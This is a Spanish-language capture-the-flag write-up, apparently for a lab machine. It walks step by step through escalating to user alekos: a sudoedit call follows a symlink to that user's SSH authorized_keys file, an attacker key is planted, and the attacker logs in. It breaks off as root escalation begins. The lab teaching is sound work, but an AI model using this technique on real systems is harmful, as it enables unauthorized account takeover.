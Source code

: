 ### Escalada de privilegios al usuario alekos {-}

```bash
ls -l /var/www
```

No tenemos capacidad de escritura en el directorio `/var/www` pero hay un directorio testing donde el usuario proprietario es werkzeug.

```bash
cd /var/www/testing
ls -l
mkdir hannamod
cd !$
echo "Hola" > layout.html
```

Testeamos el comando **sudoedit**

```bash
sudoedit -u alekos /var/www/testing/hannamod/layout.html
```

El comando no abre un nano en el cual podemos editar el contenido. El truco aqui es burlar el fichero para que el usuario pueda editar
un ficher tercio en el cual tenga capacidad de escritura

1. Creamos un enlace symbolico contra el **authorized_keys** del usuario alekos

    ```bash
    ln -s -f /home/alekos/.ssh/authorized_keys layout.html
    ```

1. Nos creamos un par de claves

    ```bash
    ssh-keygen
    ```

1. Lanzamos el **sudoedit** y copiamos la clave publica creada
1. Nos conectamos al usuario alekos por ssh

    ```bash
    ssh -i id-rsa alekos@10.10.10.21
    ```

Pa dentro... somos alekos y podemos leer la flag.

### Escalada de privilegios al usuario root {-}

```bash
id
sudo -l
ls -l
```

vemos que hay dos directorios 

- backup
- development
